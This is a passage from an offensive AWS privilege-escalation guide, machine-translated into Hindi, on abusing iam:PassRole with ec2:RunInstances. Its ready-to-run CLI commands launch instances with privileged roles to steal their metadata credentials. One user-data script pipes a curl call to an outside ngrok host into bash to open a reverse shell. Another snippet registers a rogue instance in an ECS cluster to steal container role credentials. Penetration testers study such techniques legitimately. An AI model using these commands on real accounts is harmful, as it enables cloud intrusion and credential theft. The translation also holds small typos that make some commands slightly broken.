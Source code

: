 {% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `iam:PassRole`, `ec2:RunInstances`

एक हमलावता **एक IAM भूमिका जोड़ने वाला एक इंस्टेंस बना सकता है और फिर इंस्टेंस तक पहुंच सकता है** ताकि IAM भूमिका क्रेडेंशियल्स को मेटाडेटा एंडपॉइंट से चुरा सके।

* **SSH के माध्यम से पहुंचें**

एक **नए इंस्टेंस** को चलाएं एक **बनाया गया ssh कुंजी** (`--key-name`) का उपयोग करके और फिर इसमें ssh करें (यदि आप एक नया बनाना चाहते हैं तो आपको अनुमति `ec2:CreateKeyPair` हो सकती है)।
```bash
aws ec2 run-instances --image-id <img-id> --instance-type t2.micro \
--iam-instance-profile Name=<instance-profile-name> --key-name <ssh-key> \
--security-group-ids <sg-id>
```
* **उपयोक्ता डेटा में रेव शैल के माध्यम से पहुंच**

आप एक नए इंस्टेंस चला सकते हैं जिसमें एक **उपयोक्ता डेटा** (`--user-data`) होगा जो आपको एक **रेव शैल** भेजेगा। इस तरीके से आपको सुरक्षा समूह को निर्दिष्ट करने की आवश्यकता नहीं है।
```bash
echo '#!/bin/bash
curl https://reverse-shell.sh/4.tcp.ngrok.io:17031 | bash' > /tmp/rev.sh

aws ec2 run-instances --image-id <img-id> --instance-type t2.micro \
--iam-instance-profile Name=E<instance-profile-name> \
--count 1 \
--user-data "file:///tmp/rev.sh"
```
**संभावित प्रभाव:** मौजूदा इंस्टेंस प्रोफाइल्स से जुड़े किसी भी EC2 रोल को सीधे उन्नति देना।

#### ECS को उन्नति देना

इस अनुमतियों के सेट के साथ आप एक EC2 इंस्टेंस बना सकते हैं और इसे एक ECS क्लस्टर के अंदर रजिस्टर कर सकते हैं। इस तरह, ECS सेवाएं उस EC2 इंस्टेंस के अंदर चलेंगी जिसमें आपका पहुंच है और फिर आप उन सेवाओं (डॉकर कंटेनर) में घुस सकते हैं और उनके ECS रोल्स को चुरा सकते हैं।
```bash
aws ec2 run-instances \
--image-id ami-07fde2ae86109a2af \
--instance-type t2.micro \
--iam-instance-profile <ECS_role> \
--count 1 --key-name pwned \
--user-data "file:///tmp/asd.sh"

# Make sure to use an ECS optimized AMI as it has everything installed for ECS already (amzn2-ami-ecs-hvm-2.0.20210520-x86_64-ebs)
# The EC2 instance profile needs basic ECS access
# The content of the user data is:
#!/bin/bash
echo ECS_CLUSTER=<cluster-name> >> /etc/ecs/ecs.config;echo ECS_BACKEND_HOST= >> /etc/ecs/ecs.config;
```
{% endcode %}

